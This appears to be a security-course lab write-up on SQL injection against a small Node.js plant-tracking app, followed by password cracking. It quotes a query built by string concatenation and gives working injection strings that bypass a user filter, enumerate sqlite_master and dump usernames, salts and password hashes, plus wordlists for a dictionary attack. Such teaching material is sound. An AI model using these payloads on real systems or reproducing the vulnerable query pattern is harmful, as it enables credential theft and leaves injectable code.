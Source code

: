 # SQL Injection and Password Cracking
## Part A. Simple SQL injection
The query string inside the `node.js` code:

```js
var sql_query =
  'SELECT name, color, planttype, potsize, shared FROM plants WHERE user_id=' +
  user_id +
  ' AND name LIKE "%' +
  plant + '%";';
```

In SQL format:
```sql
SELECT name, color, planttype, potsize, shared FROM plants
WHERE user_id=user_id
AND name LIKE "%plant%";
```

SQL injection string into the `plant` variable such that it nullifies the `user_id` condition.
```
%" OR name LIKE "%
```


## Part B. SQL injection to steal password hashes
1) Find out the name of the table and columns where user data is stored.

> Every SQLite database has an SQLITE_MASTER table that defines the schema for the database. The SQLITE_MASTER table looks like this:
  ```sql
  CREATE TABLE sqlite_master (
    type TEXT,
    name TEXT,
    tbl_name TEXT,
    rootpage INTEGER,
    sql TEXT
  );
  ```
> For tables, the type field will always be 'table' and the name field will be the name of the table. So to get a list of all tables in the database, use the following SELECT command:
  ```sql
  SELECT name FROM sqlite_master
  WHERE type='table'
  ORDER BY name;
  ```
  -- https://www.sqlite.org/faq.html#q7


SQL injection string to acquire the names of the tables:
```
-" UNION SELECT * FROM sqlite_master WHERE type='table'; --
```

Output:
```
table	users	users	2
```

SQL injection string to acquire the schema of a table:
```
-" UNION SELECT sql, NULL, NULL, NULL, NULL FROM sqlite_master WHERE name='users'; --
```

Output:
```sql
CREATE TABLE users (
  id INTEGER NOT NULL,
  username VARCHAR(50) NOT NULL,
  salt VARCHAR(100) NOT NULL,
  password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )
```


2) Create an SQL injection that will retrieve and display the contents of this table.

```
-" UNION SELECT username, salt, password, NULL, NULL FROM users; --
```


## Part C. Password cracking
Wordlists used for the dictionary attack

- `/usr/share/dict/words`
- [CrackStation's Password Cracking Dictionary]( https://crackstation.net/buy-crackstation-wordlist-password-cracking-dictionary.htm)

